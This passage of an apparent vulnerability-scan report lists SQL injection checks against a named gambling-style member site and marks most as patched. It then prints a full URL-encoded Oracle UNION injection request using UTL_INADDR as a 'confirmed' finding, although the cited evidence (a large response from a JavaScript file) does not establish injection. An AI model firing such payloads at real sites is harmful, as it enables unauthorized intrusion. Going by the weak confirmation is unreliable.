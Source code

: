 #### 4. SQL Injection - Oracle Time-based (Dashboard)
- **URL:** `https://member.panama8888b.com/user/dashboard`
- **Status:** ❌ PATCHED (HTTP 401 Unauthorized)

#### 5. SQL Injection - Oracle Time-based (Announcement)
- **URL:** `https://member.panama8888b.com/api/announcement`
- **Status:** ❌ PATCHED (HTTP 405 Method Not Allowed)

#### 6. SQL Injection - SQLite Time-based (Login)
- **URL:** `https://member.panama8888b.com/auth/login`
- **Status:** ❌ PATCHED (No time delay detected)

#### 7. SQL Injection - SQLite Time-based (App.js)
- **URL:** `https://member.panama8888b.com/public/js/v2/app.js`
- **Status:** ❌ PATCHED (No time delay detected)

#### 8. SQL Injection - SQLite Time-based (Dashboard)
- **URL:** `https://member.panama8888b.com/user/dashboard`
- **Status:** ❌ PATCHED (HTTP 401 Unauthorized)

#### 9. SQL Injection - SQLite Time-based (Status)
- **URL:** `https://member.panama8888b.com/api/announcement`
- **Status:** ❌ PATCHED (HTTP 405 Method Not Allowed)

#### 10. SQL Injection - SQLite Time-based (Deposit)
- **URL:** `https://member.panama8888b.com/api/deposit/qr`
- **Status:** ❌ PATCHED (HTTP 405 Method Not Allowed)

#### 11. SQL Injection - SQLite Time-based (Token)
- **URL:** `https://member.panama8888b.com/auth/login`
- **Status:** ❌ PATCHED (No time delay detected)

#### 12. SQL Injection - SQLite Time-based (Register)
- **URL:** `https://member.panama8888b.com/register`
- **Status:** ❌ PATCHED (No time delay detected)

---

## 🔍 TECHNICAL ANALYSIS

### Confirmed Vulnerability Details

#### Oracle SQL Injection on `/public/js/v2/app.js`
```http
GET /public/js/v2/app.js?v=25.1%20/%20(SELECT%20UTL_INADDR.get_host_name('10.0.0.1')%20from%20dual%20union%20SELECT%20UTL_INADDR.get_host_name('10.0.0.2')%20from%20dual%20union%20SELECT%20UTL_INADDR.get_host_name('10.0.0.3')%20from%20dual%20union%20SELECT%20UTL_INADDR.get_host_name('10.0.0.4')%20from%20dual%20union%20SELECT%20UTL_INADDR.get_host_name('10.0.0.5')%20from%20dual)
```

**Evidence:**
- **Response Size:** 1,510,897 bytes (large response indicating union injection)
- **Status Code:** 200 OK
- **Response Time:** 0.385 seconds
- **Detection:** Union-based injection pattern matched
